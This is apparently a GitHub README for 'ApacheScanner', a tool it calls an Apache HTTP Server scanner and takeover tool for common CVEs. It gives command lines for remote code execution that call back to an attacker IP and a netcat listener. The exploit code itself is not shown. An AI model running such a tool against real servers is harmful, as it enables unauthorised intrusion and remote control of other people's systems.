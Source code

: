 # ApacheScanner
Apache HTTP Server Scanner and takeover tool with all common CVE's of Apache HTTP Servers


run a netcat or whatever listener for the RCE 
```python3 ApacheScanner.py -u http://serveriphere  --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` to run this script

```python3 ApacheScanner.py --h```  for help and see all commands
